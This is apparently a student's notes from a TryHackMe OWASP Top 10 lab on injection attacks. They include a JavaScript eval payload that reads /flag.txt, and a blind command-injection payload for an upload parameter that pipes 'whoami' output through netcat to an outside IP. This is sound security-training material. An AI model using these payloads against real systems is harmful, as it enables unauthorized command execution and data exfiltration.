 
2024-06-01 15:27

Source: #tryhackme #owasp2021 #web 

Tags: [[owasp]]  [[SQL injection]]

#### Injection attacks were ranked No. 3 on OWASP Top 10 2021

Command injection -  occurs when server-side code (like PHP) in a web application makes a call to a function that interacts with the server's console directly.
- take advantage of a bash feature called "inline commands" to abuse
- Bash allows you to run commands within commands
To execute inline commands, you only need to enclose them in the following format `$(your_command_here)`
### Injecting JS code to get flag.txt 

```js
eval(`(function() { return ${ formula } ;}())`)
```
what should i input in place of formula to get flag.txt? -
```js
require('fs').readFileSync('/flag.txt').toString();
```

> [!tip]
> Try injecting code in every field that can be manipulated 

### Blind Command Injection via file upload 

The webapp allows you to upload a file and lets you select a parameter while uploading 
the burp request shows the contents of the file and the parameter selected 
we try injecting code in the txt file we upload but it doesn't execute 
We then try injecting in the parameter field.

below is the payload used in the parameter field
```sh
bytebuster ; whoami | nc 10.17.117.61 4444; 
```

`;` are real important 
open a [[netcat]] listener on another terminal 

### References
[TryHackMe | OWASP Top 10 - 2021](https://tryhackme.com/r/room/owasptop102021)